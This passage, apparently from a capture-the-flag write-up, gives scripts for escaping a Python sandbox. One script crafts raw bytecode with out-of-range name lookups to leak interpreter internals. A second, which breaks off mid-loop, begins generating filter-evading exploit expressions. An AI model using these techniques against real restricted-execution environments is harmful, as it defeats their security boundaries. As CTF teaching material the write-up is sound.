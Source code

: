 ```

First here is a script for us to find those offsets of names.

```python
from types import CodeType
from opcode import opmap
from sys import argv

class MockBuiltins(dict):
    def __getitem__(self, k):
        if type(k) == str:
            return k

if __name__ == '__main__':
    n = int(argv[1])

    code = [
        *([opmap['EXTENDED_ARG'], n // 256]
          if n // 256 != 0 else []),
        opmap['LOAD_NAME'], n % 256,
        opmap['RETURN_VALUE'], 0
    ]

    c = CodeType(
        0, 0, 0, 0, 0, 0,
        bytes(code),
        (), (), (), '<sandbox>', '<eval>', 0, b'', ()
    )

    ret = eval(c, {'__builtins__': MockBuiltins()})
    if ret:
        print(f'{n}: {ret}')

# for i in $(seq 0 10000); do python find.py $i ; done1234567891011121314151617181920212223242526272829303132
```
```
And the following is for generating the real Python exploit.

```python
import sys
import unicodedata

class Generator:
    # get numner
    def __call__(self, num):
        if num == 0:
            return '(not[[]])'
        return '(' + ('(not[])+' * num)[:-1] + ')'

    # get string
    def __getattribute__(self, name):
        try:
            offset = None.__dir__().index(name)
            return f'keys[{self(offset)}]'
        except ValueError:
            offset = None.__class__.__dir__(None.__class__).index(name)
            return f'keys2[{self(offset)}]'

_ = Generator()

names = []
chr_code = 0
for x in range(4700):
```